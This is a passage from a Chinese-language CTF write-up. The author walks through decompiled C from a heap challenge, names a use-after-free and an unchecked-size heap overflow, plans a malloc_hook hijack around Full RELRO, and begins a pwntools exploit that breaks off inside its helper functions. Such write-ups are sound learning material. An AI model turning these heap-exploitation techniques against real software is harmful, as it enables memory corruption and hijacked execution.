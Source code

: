 你别说漏洞还挺明显的，我都能一眼看出来。free后没有置null，uaf警告。继续看能和什么配合。

```c
void Create(void)
{
  uint uVar1;
  void *__buf;
  int i;
  PrintSth("Size: ",6);
  uVar1 = GetInput();
  __buf = malloc((long)(int)uVar1);
  if (__buf != (void *)0x0) {
    i = 0;
    while ((i < 10 && (*(long *)(&DAT_00601040 + (long)i * 8) != 0))) {
      i = i + 1;
    }
    if (i == 10) {
      PrintSth("List is Full!\n",0xe);
      free(__buf);
    }
    else {
      PrintSth("Data: ",6);
      read(0,__buf,(ulong)uVar1);
      *(void **)(&DAT_00601040 + (long)i * 8) = __buf;
    }
  }
  return;
}
```

这种结构的分配不是第一次遇到了，经验告诉我DAT_00601040中装着指向各个堆块的指针，再根据下面的判断可以得知不能创建超过10个堆块。

```c
void Update(void)
{
  uint uVar1;
  uint uVar2;
  PrintSth("Index: ",7);
  uVar1 = GetInput();
  if ((uVar1 < 10) && (*(long *)(&DAT_00601040 + (ulong)uVar1 * 8) != 0)) {
    PrintSth("Size: ",6);
    uVar2 = GetInput();
    PrintSth("Data: ",6);
    read(0,*(void **)(&DAT_00601040 + (ulong)uVar1 * 8),(ulong)uVar2);
  }
  return;
}
```

更新堆块里的内容。但是好像没有限制大小啊，这不会溢出吗？简直一箩筐的bug，可惜我还是不会利用。Full RELRO直接把我看懵了，所以要学习新的劫持办法：劫持malloc_hook。继续先把[exp](https://www.freesion.com/article/3386496214/)放出来（以后先把exp放出来的题目都是我学不会的）

```python
from pwn import *
def add(size, content):
	r.recvuntil("Your choice :")
	r.sendline('1')
	r.recvuntil("Size: ")
	r.sendline(size)
	r.recvuntil("Data: ")
	r.send(content)
def delete(index):
	r.recvuntil("Your choice :")
	r.sendline('2')
	r.recvuntil("Index: ")
	r.sendline(index)
def edit(index, size, content):
```